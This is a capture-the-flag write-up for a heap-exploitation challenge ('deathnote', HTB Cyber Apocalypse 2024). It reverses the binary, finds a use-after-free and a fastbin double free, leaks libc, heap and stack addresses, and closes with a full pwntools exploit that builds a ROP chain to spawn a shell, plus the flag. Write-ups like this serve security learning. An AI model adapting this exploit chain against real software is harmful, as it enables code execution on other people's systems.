



* Difficulty : Medium
* Description : You stumble upon a mysterious and ancient tome, said to hold the secret to vanquishing your enemies. Legends speak of its magic powers, but cautionary tales warn of the dangers of misuse.
* Challege Files : [pwn_deathnote.zip](https://github.com/Parth-Badgujar/Parth-Badgujar.github.io/raw/main/content/ctf-writeups/HTB%20Cyber%20Apocalypse%202024/files/pwn_deathnote.zip)       

## Initial Recon 

In the challenge distributables we were given a binary, a libc and a linker. Upon running the binary you get the following options : 

```
⠀⠀⠀⠀⠀⠀⢀⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠰⣿⡉⠹⢧⣶⣦⣤⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⣴⠛⠻⣧⣼⡟⠿⠿⣿⣿⣿⣿⣿⣶⣶⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢀⣿⢶⣄⢠⣿⣷⣶⣦⣤⣈⣉⠙⠛⠻⠿⣿⣿⣿⣿⣿⠁⠀⠀⠀⠀
⠀⠀⠀⠀⢻⣇⡀⠛⣿⡟⠛⠿⢿⣿⣿⣿⣿⣿⣶⣦⣤⣄⣉⣿⡏⠀⠀⣄⠀⠀
⠀⠀⠀⠀⣟⠉⠹⢶⣿⣿⣷⣶⣦⣤⣌⣉⣙⠛⠛⠻⠿⢿⡿⠋⣠⣴⣦⡈⠓⠀
⠀⠀⠀⣰⠟⢻⣆⣾⣏⡉⠛⠛⠿⢿⣿⣿⣿⣿⣿⣶⡶⠀⣠⣾⣿⣿⠟⠁⠀⠀
⠀⠀⢀⣽⣦⣄⢹⣿⣿⣿⣿⣷⣶⣤⣤⣈⣉⠙⠛⠋⣠⣾⣿⣿⠟⠁⠀⠀⠀⠀
⠀⠀⢸⣇⠀⠻⣿⣏⣉⡉⠛⠻⠿⢿⣿⣿⣿⠋⠠⣾⣿⣿⠟⠁⠀⠀⠀⠀⠀⠀
⠀⢠⣿⠉⠿⣼⣿⣿⣿⣿⣿⣷⣶⣦⣤⣬⡁⢠⡦⠈⠛⡁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣴⠿⢶⣄⣿⣧⣤⣄⣉⡉⠛⠛⠿⢿⡟⣀⣠⣤⣶⣾⠇⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢿⣤⣌⣹⣿⣿⣿⣿⣿⣿⣿⣶⣶⣤⣤⣈⣉⠙⣻⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠉⠙⠿⠿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠛⠿⠿⣿⣿⣿⡟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
-_-_-_-_-_-_-_-_-_-_-_
|                     |
|  01. Create  entry  |
|  02. Remove  entry  |
|  03. Show    entry  |
|  42. ¿?¿?¿?¿?¿?¿?   |
|_-_-_-_-_-_-_-_-_-_-_|

💀 
```  

* This definetrly seemed to be a `heap` chall given these option and name of the challenge. 

#### Create Entry  

As you create an entry it asks for three thing namely request size, page number and name of the victim : 
```⠀⠀⠀⠀⠀⠀⠀⠀⠀
-_-_-_-_-_-_-_-_-_-_-_
|                     |
|  01. Create  entry  |
|  02. Remove  entry  |
|  03. Show    entry  |
|  42. ¿?¿?¿?¿?¿?¿?   |
|_-_-_-_-_-_-_-_-_-_-_|

💀 1

How big is your request?

💀 3

Page?

💀 3

Name of victim:

💀 AAAA

[!] The fate of the victim has been sealed!

```  

#### Remove Entry 
Upon choosing remove entry it asks for the page number to be removed : 
```
-_-_-_-_-_-_-_-_-_-_-_
|                     |
|  01. Create  entry  |
|  02. Remove  entry  |
|  03. Show    entry  |
|  42. ¿?¿?¿?¿?¿?¿?   |
|_-_-_-_-_-_-_-_-_-_-_|

💀 2

Page?

💀 3

Removing page [3]
```  

#### Show Entry 
Upon choosing show entry it asks for page number and shows its content 
```
-_-_-_-_-_-_-_-_-_-_-_
|                     |
|  01. Create  entry  |
|  02. Remove  entry  |
|  03. Show    entry  |
|  42. ¿?¿?¿?¿?¿?¿?   |
|_-_-_-_-_-_-_-_-_-_-_|

💀 3

Page?

💀 3

Page content: ddddd
```  

## Reversing Part  

Here is the decompiled `main` function in IDA 
```C  
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  __int64 v5[12]; // [rsp+10h] [rbp-60h] BYREF

  v5[11] = __readfsqword(0x28u);
  memset(v5, 0, 80);
  while ( 1 )
  {
    while ( 1 )
    {
      v3 = menu();
      if ( v3 != 42 )
        break;
      _(v5);
    }
    if ( v3 > 0x2A )
    {
LABEL_13:
      error("Invalid choice!\n");
    }
    else if ( v3 == 3 )
    {
      show(v5);
    }
    else
    {
      if ( v3 > 3 )
        goto LABEL_13;
      if ( v3 == 1 )
      {
        add(v5);
      }
      else
      {
        if ( v3 != 2 )
          goto LABEL_13;
        delete(v5);
      }
    }
  }
}

```  

This shows that program run an infinite loop, and in every iteration it prints the menu and asks to choose from the options.  

#### add() Function   

Here is the decompiled code for `add` function 

```C
unsigned __int64 __fastcall add(__int64 a1)
{
  unsigned __int8 v2; // [rsp+15h] [rbp-1Bh]
  unsigned __int16 num; // [rsp+16h] [rbp-1Ah]
  unsigned __int64 v4; // [rsp+18h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  get_empty_note(a1);
  printf(aHowBigIsYourRe);
  num = read_num();
  if ( num > 1u && num <= 0x80u )
  {
    printf(aPage);
    v2 = read_num();
    if ( (unsigned __int8)check_idx(v2) == 1 )
    {
      *(_QWORD *)(8LL * v2 + a1) = malloc(num);
      printf(aNameOfVictim);
      read(0, *(void **)(8LL * v2 + a1), num - 1);
      printf("%s\n[!] The fate of the victim has been sealed!%s\n\n", "\x1B[1;33m", "\x1B[1;36m");
    }
  }
  else
  {
    error("Don't play with me!\n");
  }
  return v4 - __readfsqword(0x28u);
```   

* The program asks for size of chunk which should be more than `0x1` and less than `0x80` and allocates memory with that size. 
* It is reading into that chunk with proper size, I don't see any possibility of overwriting LSB of next chunks metadata for exploting `PREV_INUSE` bit. 
* Key observation : The size check is upto `0x80`, which means we can allocate `0x90` sized chunks which are freed into unsorted bin. 

Sizes from `0x49 - 0x58` will allocate `0x60` sized chunk   
Sizes from `0x59 - 0x68` will allocate `0x70` sized chunk   
Sizes from `0x69 - 0x78` will allocate `0x80` sized chunk     
and so on ...   
Thus `0x79 - 0x80` will allocate `0x90` sizes chunk 
   
* Also there isn't any check which makes sure that the index at which the pointer is stored is already allocated or not, thus allowing us to allocate multiple chunks on the same index  


#### delete() function 

Here is the decompiled code for `delete()` function 

```C
unsigned __int64 __fastcall delete(__int64 a1)
{
  unsigned __int8 num; // [rsp+17h] [rbp-9h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf(aPage);
  num = read_num();
  if ( (unsigned __int8)check_idx(num) == 1 )
  {
    if ( *(_QWORD *)(8LL * num + a1) )
      printf("%s\nRemoving page [%d]\n\n%s", "\x1B[1;32m", num, "\x1B[1;36m");
    else
      error("Page is already empty!\n");
    free(*(void **)(8LL * num + a1));
  }
  return v3 - __readfsqword(0x28u);
}
```   

* This fucntion simply frees the chunk at the index (user input) of list of chunk pointers  
* The is `check_idx(num)` function which makes sure that the `num` is less than or equal to `9`  

#### show() function 
```C 
unsigned __int64 __fastcall show(__int64 a1)
{
  unsigned __int8 num; // [rsp+17h] [rbp-9h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf(aPage);
  num = read_num();
  if ( (unsigned __int8)check_idx(num) == 1 )
  {
    if ( *(_QWORD *)(8LL * num + a1) )
      printf("\nPage content: %s\n", *(const char **)(8LL * num + a1));
    else
      error("Page is empty!\n");
  }
  return v3 - __readfsqword(0x28u);
}
``` 
* This simply prints the contents of the chunk at given index, again these is `check_idx(num)` fucnction, to prevent OOB read. 
* There isn't any check for freed chunk at that index, so we have a UAF to view freed chunk. 

## The Exploit 
After reversing things were clear, since we were given with `libc 2.35`, there are multiple protections which we will have to overcome, here is my chain of exlploit : 
1. Leak libc `main_arena` address from `unsorted bin UAF` 
2. Leak a heap address using `UAF` on a `tcache` chunk and deobfuscate the address to bypass `safe-linking` introduced in libc 2.32   
3. Since `__free_hook` were removed in libc 2.34, we will have to write a ROP chain on stack 
4. To write ROP chain we will first need a stack address leak, for that we can allocate a chunk on libc `environ` using `fastbin double free` and read that chunk to leak the address  
5. To perform the write we can allocate a chunk on stack using `fastbin double free` and write ROP chain on that chunk   



### Main Bug  
In libc 2.35 to check double free on a fastbin chunk, it checks that the chunk being freed is not at the top of the fastbin chunk list. Say `chunk A` is victim chunk, and some another `chunk B`, we can free both of them like: 

free(A) #chunk A is at fastbin top  
free(B) #chunk B is at fastbin top  
free(A) #double free A   

So the next time we malloc chunks, out first allocationg will be `chunk A`, here we can corrupt the `fd` pointer and point it to any arbitary location, so the next allocation after 2nd malloc on `chunk A` will point to that arbitary address thus giving us both `OOB read and write`  

   

To perform the exploit I have created some helper function to perform the I/O 
```python
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def malloc(idx, size, data):
    p.sendlineafter("_-_-_-_-", "1")
    p.sendlineafter("request?", str(size))
    p.sendlineafter("Page?", str(idx).encode())
    p.sendlineafter("victim:", data)

def free(idx):
    p.sendlineafter("_-_-_-_-", "2")
    p.sendlineafter("Page?", str(idx).encode())

def view(idx):
    p.sendlineafter("_-_-_-_-", "3")
    p.sendlineafter("Page?", str(idx).encode())
    p.recvuntil("content: ")
    data = p.recvline()[:-1]
    return data
```


### Unsorted Bin Leak   

* First allocate total of 9 chunks of equal size, 7 of them will go in `tcache bin`, 1 will go in `unsorted bin` and another will stay allocated as  a guard chunk to `prevent consolidation` of `unsorted bin` chunk with the `top chunk` 

```python
for i in range(10):
    malloc(i, 0x80, "X"*0x80)

for i in range(7 + 1): # 7 tcache + 1 unsorted
    free(i) 

libc_leak = u64(view(7).ljust(8, b"\x00")) - 0x21ace0

log.critical(f"libc @ {hex(libc_leak)}") 
```    

### Stack Leak 

* For this we will need atleast two `fastbin chunks`, therefore initially allocate total `10 chunks` of size say `0x80`, 7 of them will go in `tcache bin` and rest 3 in `fastbin` 

```python
for i in range(10):
    malloc(i, 0x78, "A"*0x78)

for i in range(8):
    free(i)  

#Performing double free
free(9)
free(8)
free(9)

``` 

This is how the heap looks in `pwndbg` after performing the above operations 


 
* As you can see the two fastbin pointers are pointing to the same chunk.    

* Next up we allocate chunks to corrupt the `fd` of this double free chunk, before that we need to take `safe linking` linking in account and perform the obfuscation. 

* In the above case `pos` will be equal to `0x63c227661050` 

```python 
pos = heap_leak + 0x1050 # <--- heap data pointer
ptr = libc.sym['environ'] - 0x10  # <--- new fd

for i in range(7):
    malloc(i, 0x78, "A"*0x78)  

malloc(0, 0x78, p64((pos >> 12) ^ ptr)) #Corrupt fd of chunk A
malloc(1, 0x78, "F"*0x78) #Allocate chunk B
malloc(2, 0x78, "G"*0x78) #Allocate chunk A   
```   

As you can see the free chunk list now as `labels` in it, which is `0x10` bytes before `environ`   

  

* Notice how `fastbins` are now `tcache`, because `tcache` becomes empty it transfers all the `fastbin` chunks into `tcache` due to its faster performance   

* Now we cal view the newly allocated chunk to take a stack leak 

```python
p.sendlineafter("_-_-_-_-", "3")
p.sendlineafter("Page?", "3")
p.recvuntil("content: ")

data = p.recvline()[:-1][16:]

stack_leak = u64(data.ljust(8, b"\x00")) 

log.critical(f"stack_leak: {hex(stack_leak)}")
```  

## ROP Chain 

* Now we have stack leak, our next goal is to overwrite the return address of `add` fucntion 
* Majority of the process will be same just that while allocating the chunk on the stack we will have to write the ROP chain 

```python
for i in range(10):
    malloc(i, 0x68, "A"*0x68)

for i in range(7):
    free(i)

free(8)
free(7)
free(8)

for i in range(7):
    malloc(i, 0x68, "A"*0x68)

pos = heap_leak + 0x13e0 # <--- heap data pointer of the victim chunk
ptr = stack_leak - 424 # <--- saved RBP on add() function stack

#ptr = 0x7ffca22027a0 from below image  

log.critical(f"Allocating Chunk on Stack @ {hex(ptr)}")

malloc(7, 0x68, p64((pos >> 12) ^ ptr))
malloc(7, 0x68, "F"*0x68)
malloc(7, 0x68, "G"*0x68)  


pop_rdi = p64(libc.address + 0x001bbea1)
ret = p64(libc.address + 0x001bc065)

chain =  p64(stack_leak - 424) + ret + pop_rdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.sym['system'])

malloc(7, 0x68, chain) #Stack allocation 
```   

This is how the stack looks after writing ROP chain on it 

  

Then as soon as we return from the `add()` function the `rip` will get into the chain, thus popping a shell. 

## Complete Exploit  

```python
from pwn import *
import warnings
warnings.filterwarnings("ignore")

elf = context.binary = ELF('./deathnote')
libc = ELF('./glibc/libc.so.6')

context.log_level = 'debug'
p = elf.process()

def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def malloc(idx, size, data):
    p.sendlineafter("_-_-_-_-", "1")
    p.sendlineafter("request?", str(size))
    p.sendlineafter("Page?", str(idx).encode())
    p.sendlineafter("victim:", data)

def free(idx):
    p.sendlineafter("_-_-_-_-", "2")
    p.sendlineafter("Page?", str(idx).encode())

def view(idx):
    p.sendlineafter("_-_-_-_-", "3")
    p.sendlineafter("Page?", str(idx).encode())
    p.recvuntil("content: ")
    data = p.recvline()[:-1]
    return data

#Leaking libc address

for i in range(10):
    malloc(i, 0x80, "A"*0x80)

for i in range(8):
    free(i)

libc_leak = u64(view(7).ljust(8, b"\x00")) - (0x7a16e7a1ace0 - 0x7a16e7800000)

log.critical(f"libc @ {hex(libc_leak)}")

libc.address = libc_leak


#Stack Leak 

for i in range(10):
    malloc(i, 0x78, "A"*0x78)

for i in range(8):
    free(i)

free(9)
free(8)
free(9)

for i in range(7):
    malloc(i, 0x78, "A"*0x78)

heap_leak = (deobfuscate(u64(view(8).ljust(8, b"\x00"))) - 0x1000) & (0xfffffffffffff000)

log.critical(f"heap_leak: {hex(heap_leak)}")

pos = heap_leak + 0x1050
ptr = libc.sym['environ'] - 0x10
log.critical(f"ptr @ {hex(ptr)}")


malloc(0, 0x78, p64((pos >> 12) ^ ptr))

malloc(1, 0x78, "F"*0x78)
malloc(2, 0x78, "G"*0x78)


p.sendlineafter("_-_-_-_-", "1")
p.sendlineafter("request?", str(0x78).encode())
p.sendlineafter("Page?", str(3).encode())
p.sendafter("victim", b'a'*0x10)

p.sendlineafter("_-_-_-_-", "3")
p.sendlineafter("Page?", "3")
p.recvuntil("content: ")

data = p.recvline()[:-1][16:]

stack_leak = u64(data.ljust(8, b"\x00")) 

log.critical(f"stack_leak: {hex(stack_leak)}")

#Writing ROP chain 

for i in range(10):
    malloc(i, 0x68, "A"*0x68)

for i in range(7):
    free(i)

free(8)
free(7)
free(8)

for i in range(7):
    malloc(i, 0x68, "A"*0x68)

pos = heap_leak + 0x13e0
ptr = stack_leak - 424

log.critical(f"allocating chunk on stack @ {hex(ptr)}")

malloc(7, 0x68, p64((pos >> 12) ^ ptr))
malloc(7, 0x68, "F"*0x68)
malloc(7, 0x68, "G"*0x68)


pop_rdi = p64(libc.address + 0x001bbea1)
ret = p64(libc.address + 0x001bc065)

chain =  p64(stack_leak - 424) + ret + pop_rdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.sym['system'])

malloc(7, 0x68, chain)


p.interactive()
```  

--- 

#### Flag : `HTB{0m43_w4_m0u_5h1nd31ru~uWu}`   
 


